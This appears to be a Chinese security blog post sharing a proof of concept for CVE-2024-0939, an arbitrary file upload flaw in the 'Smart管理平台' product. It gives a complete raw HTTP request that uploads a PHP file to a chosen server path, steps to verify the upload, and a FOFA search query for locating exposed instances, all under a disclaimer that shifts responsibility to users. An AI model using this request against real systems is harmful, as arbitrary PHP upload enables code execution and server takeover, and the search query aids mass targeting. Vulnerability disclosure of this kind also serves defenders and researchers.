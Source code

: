 #  smart管理平台多版本任意文件上传-CVE-2024-0939   
小白菜安全  小白菜安全   2024-02-17 19:33  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
**多版本**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia21iaoTK87V4a67RFKDCOGzFnpdjlhc88wic5sFIqYS2jGoYdtfevm8kfiaSEXxYMNiazGqUdiac9wU82w/640?wx_fmt=png&from=appmsg "")  
#  漏洞复现  
  
**poc**  
```
POST /Tool/uploadfile.php? HTTP/1.1
Host: 192.168.10.7:8443
Cookie: PHPSESSID=fd847fe4280e50c2c3855ffdee69b8f8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------123
Content-Length: 294
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Connection: close

-----------------------------123
Content-Disposition: form-data; name="file_upload"; filename="contents.php"
Content-Type: application/octet-stream

poc
-----------------------------123
Content-Disposition: form-data; name="txt_path"

/home/poc.php
-----------------------------123--

```  
  
漏洞复现  
1. 出现以下信息代表漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia0dTDfY8rMExXnuUCUIHPFtiaJ5bCz9icyeFFVbCFibxEiamicx3R9KQAgziaDiaPlXKMgCPFQOM619RePRg/640?wx_fmt=png&from=appmsg "")  
  
2.访问上传文件url+home/poc.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia0dTDfY8rMExXnuUCUIHPFtB6babAPYSDvK2KOm6Cb08YicV9ZcUBKEZ1PmEibcueTHFWib922zJ0q2Q/640?wx_fmt=png&from=appmsg "")  
# 搜索语法  
  
**fofa："Smart管理平台"**  
  
  
  
